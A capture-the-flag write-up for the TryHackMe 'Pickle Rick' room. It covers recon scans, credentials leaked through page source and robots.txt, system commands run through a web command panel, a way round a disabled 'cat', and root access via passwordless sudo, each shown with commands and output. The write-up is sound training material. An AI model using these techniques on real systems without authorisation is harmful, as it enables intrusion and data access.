






# Pickle Rick — TryHackMe Writeup

| Room | Difficulty | Category | Target |
| :--- | :--- | :--- | :--- |
| [Pickle Rick](https://tryhackme.com/room/picklerick) | Easy | Web / Command Injection / Privilege Escalation | `10.48.143.124` |

---

## 📖 Overview

**The Pickle Rick** challenge on TryHackMe based on command injection and privilege escalation.

---

## 🛠️ Walkthrough

### 1. Reconnaissance

Run an Nmap service scan to discover open ports and running services on the target machine:

```bash
nmap -sV <TARGET_IP>
```

**Identified Ports:**
- **22/tcp**: Open (SSH)
- **80/tcp**: Open (HTTP)



---

### 2. Directory & File Enumeration

Run Gobuster to discover hidden endpoints, PHP files, and directory paths:

```bash
gobuster dir -u http://<TARGET_IP>/ -w /usr/share/wordlists/dirb/common.txt -x html,php,txt
```

**Key Discoveries:**
- `/login.php`: Administrator login page
- `/portal.php`: Management portal (redirects to `/login.php` if unauthenticated)
- `/robots.txt`: Search engine crawling file
- `/assets/`: Static asset directory



---

### 3. Username Discovery (Page Source)

Navigate to `http://<TARGET_IP>/` in the browser and inspect the HTML page source (`Ctrl + U` or Right-click -> **View Page Source**).

An HTML comment left behind discloses the username:

```html
<!--

    Note to self, remember username!

    Username: R1ckRul3s

-->
```

- **Username**: `R1ckRul3s`



---

### 4. Password Discovery (`robots.txt`)

Check the `http://<TARGET_IP>/robots.txt` file identified during directory enumeration:

```text
[REDACTED]
```

The file contains Rick's catchphrase, which serves as the login password.

- **Password**: `[REDACTED]`



---

### 5. Accessing the Admin Portal

Navigate to `http://<TARGET_IP>/login.php` and sign in with the discovered credentials:
- **Username**: `R1ckRul3s`
- **Password**: `[REDACTED]`



After successful authentication, the portal redirects to `/portal.php`, which presents a web-based **Command Panel**.

---

### 6. Command Execution & Ingredient 1

The command panel executes system commands as the web server user (`www-data`).

Verify command execution:
```bash
whoami
```

**Output:**
```text
www-data
```

List the contents of the current web directory:
```bash
ls -la
```

**Directory Listing:**
```text
total 40
drwxr-xr-x 3 root   root   4096 Feb 10  2019 .
drwxr-xr-x 3 root   root   4096 Feb 10  2019 ..
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 Sup3rS3cretPickl3Ingred.txt
drwxrwxr-x 2 ubuntu ubuntu 4096 Feb 10  2019 assets
-rwxr-xr-x 1 ubuntu ubuntu   54 Feb 10  2019 clue.txt
-rwxr-xr-x 1 ubuntu ubuntu 1105 Feb 10  2019 denied.php
-rwxrwxrwx 1 ubuntu ubuntu 1062 Feb 10  2019 index.html
-rwxr-xr-x 1 ubuntu ubuntu 1438 Feb 10  2019 login.php
-rwxr-xr-x 1 ubuntu ubuntu 2044 Feb 10  2019 portal.php
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 robots.txt
```

A file named `Sup3rS3cretPickl3Ingred.txt` is present. Attempting to view it with `cat` fails because the `cat` command is disabled.

Bypass this restriction using alternative commands like `less`, `head`, `tail`, or `nl`:

```bash
less Sup3rS3cretPickl3Ingred.txt
```

**Output:**
```text
[REDACTED]
```



- **Ingredient 1**: `[REDACTED]`

---

### 7. Locating the Second Ingredient

Enumerate the `/home` directory to find user folders:

```bash
ls -la /home
```

A user directory named `/home/rick` exists. List its contents:

```bash
ls -la /home/rick
```

**Output:**
```text
total 12
drwxrwxrwx 2 root root 4096 Feb 10  2019 .
drwxr-xr-x 4 root root 4096 Feb 10  2019 ..
-rwxrwxrwx 1 root root   13 Feb 10  2019 second ingredients
```

Read the file using `less` (enclosing the filename in quotes to handle the space):

```bash
less "/home/rick/second ingredients"
```

**Output:**
```text
[REDACTED]
```

- **Ingredient 2**: `[REDACTED]`

---

### 8. Privilege Escalation to Root (Ingredient 3)

Check the current user's `sudo` privileges:

```bash
sudo -l
```

**Output:**
```text
Matching Defaults entries for www-data on ip-10-49-148-56:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-49-148-56:
    (ALL) NOPASSWD: ALL
```

The user `www-data` can run any command as any user with `sudo` without a password (`(ALL) NOPASSWD: ALL`).

List the `/root` directory:

```bash
sudo ls -la /root
```

**Output:**
```text
total 36
drwx------  4 root root 4096 Jul 11  2024 .
drwxr-xr-x 23 root root 4096 Oct 19 17:49 ..
-rw-------  1 root root  168 Jul 11  2024 .bash_history
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
-rw-r--r--  1 root root  161 Jan  2  2024 .profile
drwx------  2 root root 4096 Feb 10  2019 .ssh
-rw-------  1 root root  702 Jul 11  2024 .viminfo
-rw-r--r--  1 root root   29 Feb 10  2019 3rd.txt
drwxr-xr-x  4 root root 4096 Jul 11  2024 snap
```

Read the final ingredient file (`3rd.txt`):

```bash
sudo less /root/3rd.txt
```

**Output:**
```text
3rd ingredients: [REDACTED]
```

- **Ingredient 3**: `[REDACTED]`

---

## 🚩 Answers

| Question | Answer |
| :--- | :--- |
| **What is the first ingredient that Rick needs?** | `[REDACTED]` |
| **What is the second ingredient in Rick’s potion?** | `[REDACTED]` |
| **What is the last and final ingredient?** | `[REDACTED]` |

---
